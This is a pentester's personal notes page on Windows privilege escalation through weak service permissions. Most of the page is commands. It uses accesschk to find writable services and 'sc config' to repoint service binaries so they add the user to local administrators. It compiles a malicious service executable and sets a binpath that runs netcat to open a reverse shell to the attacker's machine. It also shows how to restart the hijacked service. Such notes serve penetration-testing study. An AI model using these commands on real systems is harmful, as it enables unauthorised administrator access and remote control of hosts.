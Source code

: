 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Guide:
```
https://www.fuzzysecurity.com/tutorials/16.html
```

```
https://grimmie.net/cyberseclabs-hijack-write-up/#Drupalgeddon
```

Download old version:
```
https://xor.cat/2017/09/05/sysinternals-accesschk-accepteula
```

[[4._File Transfers#Certutil]]

#### Weak Service Permissions
Check Program Files directory recursively for writable files:
```
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

```command prompt - target
accesschk.exe /accepteula -uws "Everyone" "C:\Program Files"
```

IF YOU HAVE A USERNAME:
```
.\accesschk.exe -uwcqv %username% * -accepteula
```

![[Pasted image 20220609125204.png | 500]]

NOTE:
>The SERVICE_ALL_ACCESS permission allows any user on the system to take control of and modify the parameters of the service.

```
sc qc OpenSSHd
```

![[Pasted image 20220609125330.png | 500]]

Now we have a few options to exploit:

#### 1. Add current user to local administrators (Method 1):
```
sc config "OpenSSHd" binPath= "net localgroup administrators %username% /add"
```

```
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

[[12._ACCESSCHK#Restart the service]]

OR [[___.Misc Commands#Restart host]]

Check your user was added to local admins:

```
net localgroup administrators
```

#### 2. Add current user to local administrators (Method 2):

Open windows_service.c in a text editor and replace the command used by the system() function to (line 15): 

[[windows_service.c]]

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_service.c -o x.exe 
```

(NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')

Send to target.

[[12._ACCESSCHK#Restart the service]]
Check your user was added to local admins:

```command prompt - windows
net localgroup administrators
```

#### 3. nc reverse shell:

>SERVICE_START_NAME must say NT AUTHORITY\LocalService

![[Pasted image 20221115143853.png]]

```command prompt - target
sc config SSDPSRV binpath= "C:\WINDOWS\Temp\nc.exe -nv $KALI 443 -e C:\WINDOWS\System32\cmd.exe"
```

```
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

[[rlwrap]]

[[12._ACCESSCHK#Restart the service]]

#### 4. reverse.exe

[[1._Reverse Shells (WIN)#MSFVenom]]
```
sc config SSDPSRV binpath= "C:\WINDOWS\Temp\Tools\reverse.exe"
```

```
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

[[rlwrap]]

[[12._ACCESSCHK#Restart the service]]

#### PowerShell
Same thing in PowerShell:
```powershell - target
Get-ChildItem "C:\Program Files" -R
ecurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

![[2._Automated Tools#PowerUp ps1]]

![[Pasted image 20220207151712.png]]

#### Restart the service
IF YOU RUN INTO AN ERROR (SEE PIC)!  FOLLOW: https://sohvaxus.github.io/content/winxp-sp1-privesc.html

![[Pasted image 20220911155715.png | 1000]]

Set SSDPSRV to AUTOMATIC
NOTE: There is a space between `=` and `auto`. This is important, else the command will fail.
`sc config SSDPSRV start= auto`

Double check if it's set to AUTOMATIC (or AUTO_START)
`sc qc SSDPSRV`

```command prompt - windows
sc stop SSDPSRV
```

```command prompt - windows
sc start SSDPSRV
```

OR

```command prompt - windows
net stop SSDPSRV
```

```command prompt - windows
net start SSDPSRV
```


OR [[___.Misc Commands#Restart host]]